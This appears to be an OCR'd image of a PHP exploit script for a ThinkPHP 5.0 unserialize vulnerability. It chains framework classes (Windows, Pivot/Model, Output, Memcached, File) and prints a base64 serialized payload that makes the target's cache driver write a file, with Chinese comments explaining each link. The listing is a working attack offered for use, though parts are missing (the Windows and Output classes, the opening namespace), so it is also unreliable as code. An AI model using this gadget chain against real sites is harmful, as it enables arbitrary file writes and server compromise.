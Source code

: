 ```php
use think\model\relation\HasOne;
use think\console\Output;
use think\db\Query;
abstract class Model{
    protected $append = [];
    protected $error;
    public $parent;#修改处
    protected $selfRelation;
    protected $query;
    protected $aaaaa;

    function __construct(){
        $this->parent = new Output();#Output对象,目的是调用__call()
        $this->append = ['getError'];
        $this->error = new HasOne();//Relation子类,且有getBindAttr()
        $this->selfRelation = false;//isSelfRelation()
        $this->query = new Query();

    }
}

namespace think\db;#Query
use think\console\Output;
class Query{
    protected $model;
    function __construct(){
        $this->model = new Output();
    }
}

namespace think\session\driver;#Memcached
use think\cache\driver\File;
class Memcached{
    protected $handler = null;
    function __construct(){
        $this->handler = new File();//目的调用File->set()
    }
}
namespace think\cache\driver;#File
class File{
    protected $options = [];
    protected $tag;
    function __construct(){
        $this->options = [
        'expire'        => 0,
        'cache_subdir'  => false,
        'prefix'        => '',
        'path'          => './demo/',
        'data_compress' => false,
        ];
        $this->tag = true;
    }
}

namespace think\model;
use think\Model;
class Pivot extends Model{


}
use think\process\pipes\Windows;
echo base64_encode(serialize(new Windows()));
```